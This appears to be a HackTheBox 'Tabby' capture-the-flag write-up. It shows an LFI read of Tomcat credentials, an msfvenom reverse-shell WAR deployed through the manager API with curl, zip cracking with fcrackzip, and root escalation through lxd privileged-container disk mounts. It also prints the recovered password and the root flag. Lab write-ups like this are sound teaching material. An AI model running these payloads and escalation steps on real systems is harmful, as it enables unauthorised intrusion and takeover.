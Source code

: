 ```yaml
---
title: HackTheBox Tabby Writeup
published: false
---
```


![](https://i.ibb.co/mBPb1hs/logo.png)

# []()Methodology

* nmap scan
* LFI Lead to read tomcat user credentials
* exploitation by Metasploit
* crack zip file by fcrackzip 
* user part
* Privilege Escalation

# []()Nmap Scan

> as always, i’ll do nmap scan to find out which services running in this machine.

* 8080 for apache tomcat

* 22 for ssh

* from nmap scan i know that there is a apache tomcat server.

```ruby

# Nmap 7.80 scan initiated Sun Jun 21 05:43:17 2020 as: nmap -sC -sV -oN scan.txt 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.13s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

> let's check the web page now.

![](https://i.ibb.co/b5RHnQj/webpage-mega.png)

> after looking at the source code i found the way to exploit LFI, let's see how.

![](https://i.ibb.co/BNg7ZrK/lfi-param.png)

# []() LFI Part

* from the source code i've found the url: http://megahosting.htb/news.php?file=

> the file parameter was vulnerable to LFI, let's check it.

![](https://i.ibb.co/qNY5mWv/lfi-done.png)

* now we have lfi, let's check the port 8080 now.

![](https://i.ibb.co/Hp3ND9s/port-8080.png)

> from this page we know that the users data we will find it at **tomcat9/tomcat-users.xml**, let's use lfi now.

* from Apache tomcat [Docs](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html) i know that the file will be in **/usr/share/tomcat9/etc/tomcat-users.xml**

* if you are a linux user you will know that without any blogs because any program data will be found at **/usr/share**

> here is the credentials for apache tomcat server.

![](https://i.ibb.co/xfR6Rjq/user-data.png)

* username:**tomcat**
* password:**$3cureP4s5w0rd123!**

> now we have the credentials, let's use metasploit now to exploit this service.

# []() Exploitation Part

> exploitation part was very easy, we need a **wat** format backdoor to upload to the server and start deploying it to get a reverse shell.

* let's generate a war file with **msfvenom**.

> **msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.xx LPORT=9002 -f war > xdev0.war**

* after generating this file we need to upload it and deploy it as a new application.

> **curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=xdev0.war"**

```ruby

╭─xdev05@nic3One ~/Documents/HTB/Tabby  
╰─➤  curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=/xdev0.war"
OK - Deployed application at context path [/xdev0.war]
╭─

```
> let's start nc listener now and open this link http://10.10.10.194:8080/xdev0.war/.

![](https://i.ibb.co/pytCy44/nc.png)

* nice!

> in this point you can use metasploit too.

![](https://i.ibb.co/r3rWxQj/metasploit.png)

# []()USER Part

> after some enumeration, I've found a compressed backup file and after cracking this file I used its password to escalate my privilege to the user privileges.

* here is the backup file

![](https://i.ibb.co/nsZ1vjz/backup-file.png)

* let's crack it now with **fcrackzip**

> **fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip**

![](https://i.ibb.co/5TFBTT6/fcrack-result.png)

* let's escalate our privilege now.

> **su ash**

![](https://i.ibb.co/p2GjmMp/user.png)

* user part done!.

# []()ROOT Part

> the user **ash** is a member of **lxd local group**

```ruby

ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)

```
> from this [Blog](https://www.hackingarticles.in/lxd-privilege-escalation/) i know the way to escalate my privileges to root privilege.

1. **Steps to be performed on the attacker machine.**

* Download build-alpine in your local machine through the git repository.

* Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.

* Transfer the tar file to the host machine

2. **Steps to be performed on the Tabby machine.**

* Download the alpine image from your machine

* Import image for lxd

* Initialize the image inside a new container.

* Mount the container inside the /root directory 

* let's start now.

```ruby

╭─xdev05@nic3One ~/Documents/HTB/Tabby/lxd-alpine-builder  ‹master*› 
╰─➤  ls
alpine-v3.12-x86_64-20201106_1805.tar.gz  build-alpine  LICENSE  README.md
╭─xdev05@nic3One ~/Documents/HTB/Tabby/lxd-alpine-builder  ‹master*› 
╰─➤  

```

> let's start a python server and upload the image to the Tabby machine

![](https://i.ibb.co/NYBx9dG/lxd-upload.png)

* now let's import our image

> **lxc image import ./alpine-v3.12-x86_64-20201106_1805.tar.gz --alias devil**

![](https://i.ibb.co/kHqxxx4/image-lxc.png)

> **lxc init devil ignite -c security.privileged=true

> **lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true**

> **lxc start ignite**

> **lxc exec ignite /bin/sh**

![](https://i.ibb.co/QrGJ4st/root-part.png)

> root flag

```ruby

/mnt/root/root # cat root.txt
cat root.txt
8eca10cfde310d8b2c7668bee56818b5
/mnt/root/root #

```

* Thanks for reading.

* Cheers!

 <script src="https://www.hackthebox.eu/badge/103789"></script>


